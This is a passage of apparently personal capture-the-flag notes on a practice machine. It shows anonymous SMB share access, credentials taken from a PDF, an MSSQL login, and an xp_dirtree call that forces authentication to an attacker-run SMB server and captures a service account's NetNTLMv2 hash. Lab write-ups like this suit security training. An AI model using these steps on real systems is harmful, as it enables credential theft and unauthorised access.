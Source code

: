 let get in there!
`smbclient \\\\10.10.11.202\\Public -N`
```
s
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

:ALARM: 

lets take a look at this pdf and the metadata!

taking a look:
![[Pasted image 20250728194320.png]]
We get low level access creds:
`PublicUser: GuestUserCantWrite1`

```
impacket-mssqlclient PublicUser@10.10.11.202 -windows-auth
# ❌ this will FAIL — you want SQL auth

impacket-mssqlclient PublicUser:GuestUserCantWrite1@10.10.11.202
```
WE ARE IN!
```
SELECT name FROM sys.databases;
name     
------   
master   

tempdb   

model    

msdb     
```

ok going through the steps our next step is:
```
What user is the MSSQL instance running as?

Hint:
Get the MSSQL server to read a file from an SMB host you control, and watch for the authentication.
```

i remember doing this in oscp:
`sudo impacket-smbserver loot $(pwd) -smb2support`

then on the MSSQL server:
`EXEC xp_dirtree '\\10.10.14.3\share'`

BANG:
```
Incoming connection (10.10.11.202,51879)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:8c9638747e7fbba9e07e1de6d01069d3:010100000000000000c405ed1a00dc018ce56915125f9b8e0000000001001000760070004100490078004b006500660003001000760070004100490078004b00650066000200100055006c00590066006a007400710044000400100055006c00590066006a007400710044000700080000c405ed1a00dc010600040002000000080030003000000000000000000000000030000003e2c98b1e0e2946223517f9b98139541cca9c806e2b6cabaee5236d9bc8bb150a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000
[*] Closing down connection (10.10.11.202,51879)
```
